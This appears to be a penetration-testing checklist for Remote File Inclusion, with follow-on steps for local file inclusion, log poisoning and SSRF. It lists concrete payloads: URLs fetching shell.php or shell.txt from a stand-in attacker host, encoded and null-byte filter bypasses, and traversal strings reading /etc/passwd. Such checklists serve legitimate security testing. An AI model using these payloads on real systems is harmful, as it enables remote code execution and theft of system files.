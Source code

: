 ```yaml
---
legal-banner: true
---
```


1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept file path or URL inputs.
    - [ ] Review source code (if available) to understand file handling mechanisms.
    - [ ] Check for endpoints where URLs or file paths are passed as parameters in URLs, headers, or body.

2.  **Basic RFI Testing**
    - [ ] `http://Attacker.com/shell.txt`
    - [ ] `http://Attacker.com/shell.php`
    - [ ] `ftp://Attacker.com/shell.txt`
    - [ ] `ftp://Attacker.com/shell.php`
    - [ ] Try including remote files hosted on different servers.

3.  **URL Manipulation**
    - [ ] Use different URL schemes (`HTTP`, `HTTPS`, `FTP`).
    - [ ] Use different file extensions (e.g., `.txt`, `.php`, `.jpg`).
    - Test bypass techniques for URL filters and restrictions:
        - [ ] Using URL encoding: `http%3A%2F%2Fattacker.com%2Fshell.txt`
        - [ ] Using double URL encoding: `http%253A%252F%252Fattacker.com%252Fshell.txt`
        - [ ] Using mixed case URL encoding: `hTtP://aTtAcKeR.com/sHeLl.TxT`

4.  **Advanced URL Manipulation Techniques**
    - [ ] Test for double encoding vulnerabilities.
    - [ ] Try bypassing filters with non-standard encodings and mixed encodings.
    - Use variations of URLs to bypass filters:
        - [ ] `http://attacker.com/shell.txt%00.jpg`
        - [ ] `http://attacker.com/shell.txt?.jpg`
        - [ ] `http://attacker.com/shell.txt#.jpg`

5.  **File Upload and Inclusion**
    - [ ] Check if file upload functionalities are present and try uploading files for inclusion.
    - [ ] Test inclusion of uploaded files to execute code (e.g., web shells).

6.  **Log Poisoning and Inclusion**
    - [ ] Inject payload into User-Agent, Referer, or other headers.
    - [ ] Include poisoned log files to execute injected payloads.

7.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about the presence of RFI vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.

8.  **Local File Inclusion (LFI) Fallback Testing**
    - [ ] If RFI is not possible, test for Local File Inclusion (LFI) vulnerabilities.
    - Test common LFI payloads to include local files:
        - [ ] `../../../../etc/passwd`
        - [ ] `..%2F..%2F..%2F..%2Fetc%2Fpasswd`
        - [ ] `../../../../../../../../../../../etc/passwd`

9.  **Server-Side Request Forgery (SSRF)**
    - [ ] Test for SSRF vulnerabilities that can be exploited to achieve RFI.
    - Attempt to include internal resources via SSRF:
        - [ ] `http://localhost:8080/`
        - [ ] `http://127.0.0.1/`
        - [ ] `http://internal-service/`